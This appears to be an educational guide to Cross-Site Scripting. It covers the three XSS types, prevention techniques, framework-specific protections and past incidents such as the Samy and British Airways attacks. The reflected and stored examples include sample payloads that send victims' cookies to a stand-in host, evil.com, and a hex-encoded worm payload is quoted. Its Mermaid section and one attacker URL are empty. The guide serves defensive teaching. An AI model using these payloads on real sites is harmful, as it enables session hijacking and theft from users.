

# Cross-Site Scripting (XSS)

Cross-Site Scripting (XSS) is a security vulnerability that allows attackers to inject malicious scripts into web pages viewed by other users. XSS remains one of the most prevalent web application vulnerabilities.

## Types of XSS

### 1. Reflected XSS
The malicious script is reflected off the web server in the response (e.g., error message, search result). The attacker crafts a URL with injected code; when the victim clicks it, the server reflects the payload.

```
User clicks malicious link
        |
        v
[Browser] ---GET /search?q=<script>steal()</script>---> [Server]
        |                                                   |
        |<---HTML: "Results for <script>steal()</script>"---|
        |
        v
    Script executes in user's browser
```

**Example:**
```html
<!-- Vulnerable -->
<div class="search-results">
  You searched for: <?php echo $_GET['q']; ?>
</div>

<!-- Attacker's URL -->
/search?q=<script>new Image().src='https://evil.com/steal?c='+document.cookie</script>
```

### 2. Stored XSS
The malicious script is permanently stored on the server (database, forum, comment section). Every user who views the affected page executes the script.

```
Attacker submits comment: <script>steal()</script>
        |
        v
[Server saves to database]
        |
        v
Every visitor loads page --> Server sends stored comment --> Script executes
```

**Example:**
```html
<!-- Vulnerable comment rendering -->
<div class="comment">
  <?php echo $comment['body']; ?>
</div>

<!-- Stored payload -->
<script>
  fetch('https://evil.com/steal', { method: 'POST', body: document.cookie });
</script>
```

### 3. DOM-Based XSS
The vulnerability exists in client-side JavaScript rather than server-side. The attack payload is executed as a result of modifying the DOM environment.

```
URL: #default=<script>alert(1)</script>
        |
        v
[JavaScript reads location.hash or URL params]
        |
        v
[Inserts untrusted data into DOM via innerHTML/document.write]
        |
        v
Script executes (no server interaction needed)
```

**Example:**
```javascript
// Vulnerable
const name = new URLSearchParams(window.location.search).get('name');
document.getElementById('greeting').innerHTML = 'Hello, ' + name;

// Attacker URL
// ?name=
```

## XSS Attack Flow (Mermaid)



## Prevention Techniques

### 1. Output Encoding
Encode data before rendering based on the context:

```javascript
// Context-specific encoding
function encodeForHTML(str) {
  return str
    .replace(/&/g, '&amp;')
    .replace(/</g, '&lt;')
    .replace(/>/g, '&gt;')
    .replace(/"/g, '&quot;')
    .replace(/'/g, '&#x27;');
}

function encodeForHTMLAttribute(str) {
  return str.replace(/"/g, '&quot;').replace(/'/g, '&#x27;');
}

function encodeForJavaScript(str) {
  return JSON.stringify(str);
}

// React handles encoding automatically
const safe = <div>{userInput}</div>;  // React escapes by default

// BUT dangerouslySetInnerHTML bypasses encoding
const unsafe = <div dangerouslySetInnerHTML={{ __html: userInput }} />;
```

### 2. Content Security Policy (CSP)
A CSP header acts as a whitelist for allowed content sources:

```http
Content-Security-Policy: default-src 'self'; script-src 'self' https://apis.example.com; style-src 'self' 'unsafe-inline'; img-src 'self' data:;
```

### 3. Input Sanitization
Sanitize user input using a library like DOMPurify:

```javascript
import DOMPurify from 'dompurify';

const dirty = '<p>Hello</p>';
const clean = DOMPurify.sanitize(dirty);
// Result: <p>Hello</p>

// Allow specific tags
const withLinks = DOMPurify.sanitize(input, {
  ALLOWED_TAGS: ['b', 'i', 'em', 'strong', 'a'],
  ALLOWED_ATTR: ['href', 'title', 'target'],
});
```

### 4. HttpOnly Cookies
Prevent JavaScript from accessing sensitive cookies:

```javascript
// Server sets cookie with HttpOnly flag
Set-Cookie: session=abc123; HttpOnly; Secure; SameSite=Strict

// Client-side JS CANNOT read this cookie
console.log(document.cookie); // Does NOT include HttpOnly cookies
```

### 5. Safe DOM APIs
Use safe APIs instead of dangerous ones:

```javascript
// DANGEROUS
element.innerHTML = userInput;
element.outerHTML = userInput;
document.write(userInput);

// SAFE
element.textContent = userInput;
element.setAttribute('value', userInput);
document.createTextNode(userInput);

// For URLs
element.setAttribute('href', sanitizeUrl(userInput));
```

### 6. Framework-Specific Protections

**React:**
```jsx
// Safe by default - React escapes
<div>{userInput}</div>

// Dangerous - bypasses escaping
<div dangerouslySetInnerHTML={{ __html: userInput }} />

// Safe URL handling
const url = new URL(userInput, window.location.origin);
<a href={url.href}>Link</a>
```

**Angular:**
```typescript
// Safe by default
<div>{{ userInput }}</div>

// Dangerous
<div [innerHTML]="bypassSecurityTrustHtml(userInput)"></div>

// Safe URL
import { DomSanitizer } from '@angular/platform-browser';
this.safeUrl = this.sanitizer.sanitize(SecurityContext.URL, userInput);
```

**Vue:**
```vue
<template>
  <!-- Safe by default -->
  <div>{{ userInput }}</div>
  
  <!-- Dangerous -->
  <div v-html="userInput"></div>
</template>
```

## Real-World XSS Examples

### Example 1: MySpace Samy Worm (2005)
The first major XSS worm. Samy Kamkar injected a payload that:
1. Added "but most of all, Samy is my hero" to profiles
2. Added the attacker as a friend
3. Copied itself to the viewer's profile

**Payload technique:** Used `innerHTML` assignment through a CSS `background: url()` bypass.

### Example 2: British Airways 2018
Magecart attack injected a 2.9KB script via compromised third-party JavaScript:
- Script scraped payment card details (name, number, CVV, expiry)
- Data exfiltrated to attacker's domain
- 380,000+ payment records stolen
- Fine: £20M GDPR penalty

### Example 3: Twitter/X 2010
"OnMouseOver" worm exploited a DOM-based XSS:
```javascript
// Payload that executed when hovering over a tweet
\x22\x20style\x3d\x22\x2d\x6d\x6f\x7a\x2d\x62\x69\x6e\x64\x69\x6e\x67\x3a\x20\x75\x72\x6c\x28\x27\x22\x20\x6f\x6e\x6d\x6f\x75\x73\x65\x6f\x76\x65\x72\x3d\x61\x6c\x65\x72\x74\x28\x31\x29\x2f\x2f\x27\x29
```
Caused auto-retweets whenever users hovered over affected tweets.

## XSS Prevention Checklist

- [ ] Validate input on both client and server side
- [ ] Encode output based on context (HTML, attribute, JS, CSS, URL)
- [ ] Use a strict CSP with `'nonce-'` or `'hash-'` for inline scripts
- [ ] Set `HttpOnly` and `Secure` flags on cookies containing session data
- [ ] Use `DOMPurify` or similar when allowing HTML input
- [ ] Avoid `innerHTML`, `document.write`, `eval()` in production code
- [ ] Keep libraries and frameworks updated
- [ ] Use a security linter (eslint-plugin-security, eslint-plugin-react)
- [ ] Implement Subresource Integrity (SRI) for external scripts
- [ ] Disable the use of `eval()` or `setTimeout(string)` via CSP

## Resources
- [OWASP XSS Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)
- [XSS Filter Evasion Cheat Sheet](https://owasp.org/www-community/xss-filter-evasion-cheatsheet)
- [DOMPurify](https://github.com/cure53/DOMPurify)
- [CSP Evaluator](https://csp-evaluator.withgoogle.com/)
